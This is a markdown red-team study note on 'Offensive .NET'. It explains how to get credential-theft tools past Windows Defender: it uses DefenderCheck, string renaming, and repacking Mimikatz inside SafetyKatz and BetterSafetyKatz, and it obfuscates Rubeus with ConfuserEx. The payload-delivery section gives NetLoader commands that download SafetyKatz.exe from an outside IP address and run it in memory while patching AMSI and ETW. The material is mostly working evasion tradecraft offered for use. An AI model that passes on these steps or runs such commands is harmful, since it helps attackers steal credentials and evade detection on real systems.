







# Offensive .NET

- [Offensive .NET](#offensive-net)
  - [Offensive .NET Introduction](#offensive-net-introduction)
  - [Tradecraft](#tradecraft)
  - [AV Bypass](#av-bypass)
  - [String Manipulation](#string-manipulation)
  - [Example: SafetyKatz.exe](#example-safetykatzexe)
  - [Example: BetterSafetyKatz](#example-bettersafetykatz)
  - [Example: Rubeus.exe Obfuscation](#example-rubeusexe-obfuscation)
  - [Payload Delivery](#payload-delivery)

---

## Offensive .NET Introduction

Currently, `.NET` lacks some of the security features implemeneted in `System.Management.Automation.dll`. Because of this, many Red teams have included `.NET` in their tradecraft. 

There are many open source Offensive .NET tools and we will use the ones that fit out attack methodology.

<br/>

## Tradecraft

When using `.NET` (or any other complied language), there are some challenges:

1. Detection by countermeasures like AV, EDR, etc.
2. Delivery of the payload (recall PS sweet download-execute cradles!)
3. Detection by logging like **Process Creation**, **Command-line logging**, etc.

We will try and address the AV detection and delivery of the payload.

<br/>

## AV Bypass

We will focus on tthe bypass of signature-based detection by Windows Defender. For that, we use techniques like:

1. Obfuscation
2. String Manipulation
3. ...

We can use **DefenderCheck** to identify code and strings from a binary that Wnidows Defender may flag. This helps us in deciding on modifying the source code and minimal obfuscation.

- https://github.com/matterpreter/DefenderCheck

<br/>

**Defender Check**

To check `SharpKatz.exe` for signatures using **Defender Check**:

```
DefenderCheck.exe <SharpKatz.exe_path>
```

  

- As shown, it will be detected by Windows Defender

<br/>

## String Manipulation

1. Open the `.NET` project in Visual Studio
2. Press `CTRL + H`
3. Find and replace the string `Credentials` with `Credents` - you can use any other string as a replacement, but make sure that string is not present in the code
4. Select the scope as `Entire Solution`
5. Press `Replace All` button
6. Build and recheck the binary with **DefenderCheck**
7. Repeat above steps if there is still a detection

<br/>

## Example: SafetyKatz.exe

For **SafetyKatz.exe**, do the following steps:

Download the latest version of `Mimikatz` (https://github.com/gentilkiwi/mimikatz) and `Out-CompressedDll.ps1` (https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)

<br/>

Run `Out-CompressedDll.ps1` on the Mimikatz binary and save the output to a file

```
Out-CompressedDll <path_Mimikatz.exe> > <outfile>.txt
```

<br/>

Copy the value of the variable `$EncodedCompressedFile` from the output file above and replace the value of `compressedMimikatzString` varaible in the `Constants.cs` file of **SafetyKatz**.

  


<br/>

Copy the byte size from the output file and replace it in `Program.cs` file on the line 111 and 116. Finally build and recheck the binary with **DefenderCheck**.

  

<br/>

## Example: BetterSafetyKatz

For **BetterSafetyKatz**, we used the following steps:

Download the latest release of **mimkatz_truck.zip** file. Then convert the file to base64:

  

<br/>

Modify `Program.cs`:

- Added a new variable that contains the base64 value of `mimikatz_truck.zip` file
- Comment the code that downloads or accepts the mimikatz file as an argument
- Convert the base64 string to bytes and pass it to `zipStream` variable

  

<br/>

## Example: Rubeus.exe Obfuscation

For Rubeus.exe, we used **ConfuserEx** to obfuscate.

- https://github.com/mkaring/ConfuserEx

<br/>

  

<br/>

1. Launch ConfuserEx
2. In `Project` tab, select the **Base Directory0** where the binary file is located
3. In `Project` tab, select the binary file that we want to obfuscate
4. In `Settings` tab, add the rules
5. In `Settings` tab, edit the rule and select the preset as `Normal`
6. In `Protect` tab, click on the **protect** button

- We will find the new obfuscated binary in the `Confused` folder under the Base Directory.

<br/>

  

<br/>

## Payload Delivery

We can use **NetLoader** to deliver our binary payloads.

- https://github.com/Flangvik/NetLoader

It can be used to load binary from filepath or URL and patch AMSI & ETW while executing:

```
C:\Users\Public\Loader.exe -Path http://192.168.100.64/SafetyKatz.exe
```

<br/>

We also have `AssemblyLoad.exe` that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL.

```
C:\Users\Public\AssemblyLoad.exe http://192.168.100.64/Loader.exe -Path http://192.168.100.64/SafetyKatz.exe
```

<br/>

---